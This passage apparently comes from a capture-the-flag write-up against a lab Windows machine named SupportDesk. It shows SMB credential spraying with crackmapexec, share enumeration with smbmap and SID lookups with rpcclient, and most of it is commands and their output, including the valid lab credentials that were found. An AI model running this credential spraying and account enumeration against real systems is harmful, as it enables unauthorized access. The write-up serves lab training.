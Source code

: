 ### CRACKMAPEXEC

Using `crackmapexec` we can give a list of username and password. We'll use creds we have gather till now.
```
$cme smb -u username.txt -p password.txt --shares 10.10.10.149 
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False) 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:@sswordf STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:@sswordf STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB       10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Hazard:@sswordf STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Enumerated shares 
SMB         10.10.10.149    445    SUPPORTDESK      Share           Permissions     Remark 
SMB         10.10.10.149    445    SUPPORTDESK      -----           -----------     ------ 
SMB         10.10.10.149    445    SUPPORTDESK      ADMIN$                          Remote Admin 
SMB         10.10.10.149    445    SUPPORTDESK      C$                              Default share 
SMB         10.10.10.149    445    SUPPORTDESK      IPC$            READ            Remote IPC
```
and we found the valid creds `Hazard:stealth1agent` . we can now re run `smbmap` with this creds.
```
$smbmap -u hazard -p stealth1agent -H 10.10.10.149 
[+] IP: 10.10.10.149:445        Name: 10.10.10.149 
        Disk                                                    Permissions     Comment 
        ----                                                    -----------     ------- 
        ADMIN$                                                  NO ACCESS       Remote Admin 
        C$                                                      NO ACCESS       Default share 
        IPC$                                                    READ ONLY       Remote IPC
```
### RPCCLIENT
```
$rpcclient -U 'hazard%stealth1agent' 10.10.10.149
```
we can get SID of user we know using `lookupnames`.
```
$rpcclient -U 'hazard%stealth1agent' 10.10.10.149 
$rpcclient $> lookupnames hazard 
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
```
we can also get user accounts using the SID.
```
$rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008 
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
```
Using rpcclient with -c command to directly interact with the command line so that we can bruteforce SIDS.
```bash
$rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c 'lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008' 
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)

```